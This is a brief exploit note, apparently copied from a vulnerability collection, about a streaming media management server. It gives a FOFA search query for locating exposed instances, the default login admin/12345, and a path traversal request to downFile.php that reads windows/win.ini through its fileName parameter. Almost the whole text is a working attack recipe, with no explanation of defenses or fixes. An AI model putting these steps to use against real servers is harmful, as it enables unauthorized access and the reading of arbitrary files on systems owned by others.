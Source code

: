 <languages   />

FOFA
----

    title="流媒体管理服务器"

Login
-----

    admin/12345

文件读取
--------

    /systemLog/downFile.php?fileName=../../../../../../../windows/win.ini